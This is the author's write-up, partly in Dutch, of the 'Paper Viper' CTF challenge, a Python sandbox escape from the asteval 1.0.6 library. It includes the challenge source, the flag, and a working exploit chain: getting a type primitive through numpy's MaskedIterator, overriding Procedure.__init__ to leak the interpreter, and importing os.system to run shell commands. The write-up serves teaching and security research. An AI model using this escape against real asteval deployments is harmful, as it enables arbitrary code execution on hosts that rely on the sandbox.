 # Paper Viper

<img src="chal_descr.png" alt="Challenge description" width="400">

**Author**: Ward  
**Flag**: `kalmar{d0nt_play_w1th_5n4kes_if_you_don7_h4ve_gl0v3s}`  

## Setup
Insert screenshot van de challenge description

Handout: `chal.py`, `Dockerfile`, `compose.yml`, `getflag.c`

`asteval==1.0.6`, de nieuwste release.

## The challenge:

TODO: Context from UofTCTF

```python
import asteval

# With this many functions from numpy removed there definitely will not be a way for users to get to `type()`, which is a security risk
asteval.astutils.NUMPY_TABLE = {k: asteval.astutils.NUMPY_TABLE[k] for k in ["genfromtxt"]}

def get_input():
    print("Give input, end with a line of $END$")
    inp = ""
    while True:
        temp = input()
        if temp == "$END$":
            break
        inp += temp +"\n"
    return inp

def nope(text):
    if not text.isascii():
        quit("Sorry, only ascii!")
    if any([text.find(x) >= 0 for x in ["yt", "ty", "rm", "uf", "**"]]):
        quit('Sorry, those bigrams just give me bad vibes!')

def main():
    inp = get_input()
    nope(inp)
    asteval.Interpreter().eval(inp, raise_errors=True)

if __name__ == "__main__":
    main()
```

Heel janky library, heleboel bugs en 0days aanwezig. numpy geeft huge attack surface, dus het was best een uitdaging om mensen de juiste richting in te duwen van de intended en de unintendeds te filteren zonder dat het super arbitrair wordt.
Ben ook niet helemaal tevreden door deze filters sinds ze nogal arbitrair zijn, het gaat om de sandbox escape en niet om het bypassen van mijn filters, zoals het geval zou zijn bij e.g. de leuke jailctf pyjails.
TODO uitleggen hoe de challenge tot stand is gekomen / waar de specifieke filters voor zijn:
byte, bytearray, format, buffer, dict unpacking for kwargs which would bypass names that would be filtered otherwise (since strings can be constructed to bypass the filter).

## The solution:
Tijdens de CTF is hij twee keer opgelost, door bekenden in de pyjail-scene, Lyndon van Maple Mallard Magistrates en oh_word, van Infobahn.

Ook shout out naar PianoMan / SteakEnthusiast

Lyndon gebruikte een f-string-gebaseerde methode (met de breder bekende methode van AttributeError.obj om een waarde uit een format string te redden) die erg leek op de oplossing van een van de chals voor UofTCTF.
Ik ken de techniek, na UofTCTF is er een patch geweest naar asteval die bedoeld was om het te fixen. Die blijkt niet te werken.
In mijn locale testing-setup werkte het niet (waarschijnlijk omdat ik op een oudere versie van python zat dan op de remote), waardoor ik het niet aan de filters heb toegevoegd.
oh_word heeft de intended route voor `type` gevonden, en daarna memory exploitation gedaan.

### Getting a type primitive:

Uitleg: in de chal wordt hiernaar gehint. Hoe vind je dit?
Wat intelligente searches op type in `numpy`, e.g. als je zoekt op `type(self.` zijn er 4 resultaten, waarvan er maar 2 geen tests zijn.  Meer algemene searches zullen het ook vinden, maar dan heb je wat meer werk in het wegstrepen van routes die niet werken met user-controlled argumenten.
In MaskedArray.count ziet het er zo uit:
```python
        if isinstance(self.data, np.matrix):
            if m is nomask:
                m = np.zeros(self.shape, dtype=np.bool)
            m = m.view(type(self.data))
```
Dit is niet vulnerable: zelfs als de isinstance-check geen probleem zou zijn, dan nog wordt het resultaat van deze call dusdanig gebruikt dat het niet zomaar mogelijk is om bij het resultaat te kunnen.

De andere optie:
```python
def __getitem__(self, indx):
        result = self.dataiter.__getitem__(indx).view(type(self.ma))
        if self.maskiter is not None:
            _mask = self.maskiter.__getitem__(indx)
            if isinstance(_mask, ndarray):
                # set shape to match that of data; this is needed for matrices
                _mask.shape = result.shape
                result._mask = _mask
            elif isinstance(_mask, np.void):
                return mvoid(result, mask=_mask, hardmask=self.ma._hardmask)
            elif _mask:  # Just a scalar, masked
                return masked
        return result
```
De getitem van MaskedIterator. self.ma is user-controlled, self.dataiter is user-controlled. Als we dus ervoor kunnen zorgen dat de .view-methode op dat object uit de dataiter zijn argument returnt, of het in een globale lijst opslaat oid, dan kunnen we direct bij het resultaat van type en hebben we een werkende type primitive.

```python
# Get `type` primitive
def id(x):
    return x

genfromtxt.view = id
ma = genfromtxt(["1"], usemask=True)
mf = ma.flat
mf.maskiter = None
mf.ma = "foo"
mf.dataiter = [genfromtxt]
str = mf[0]

mf.ma = str
t = mf[0]
```

Wat geeft type ons? In de sandbox heb je een fake versie van type. Type stelt ons in staat om class objects te verkrijgen van alle objecten waar we toegang toe hebben in de sandbox, inclusief `asteval`-eigen klassen.

### Overriding class level dunders to leak the interpreter object:

Point out de bug in setattr van dunders.
Point out de bug van setattr in Procedure als instance-level-functie ipv class-level.

```python
# Get Procedure class object
def f():
    pass
p = t(f)

# Obtain the Interpreter instance
def stealer(name, interp, doc=None, lineno=None,
                 body=None, text=None, args=None, kwargs=None,
                 vararg=None, varkws=None):
    print(interp)
    kwargs[0][1].append(interp)
p.__init__ = stealer
rescuelist = []
def g(rescue=rescuelist):
    pass
i = rescuelist[0]
print(i)
```

Dit geeft ons een interpreter-object.

### Profit:
Op dit punt zijn er een heleboel opties.
De makkelijkste is om gewoon gebruik te maken van de importfunctionaliteit.
Een leuke alternatieve optie is om de attribuutnaam-check in on_name te omzeilen door een fake-subtype van string te maken en daarmee de waarde van een ast.Name node te overschrijven, maar die laat is als exercise to the reader.

```python
# Import and escape the jail
i.import_module("os",["sys"],["system"])
sys("echo hi mom")
sys("/getflag")
print()
```

`kalmar{d0nt_play_w1th_5n4kes_if_you_don7_h4ve_gl0v3s}`
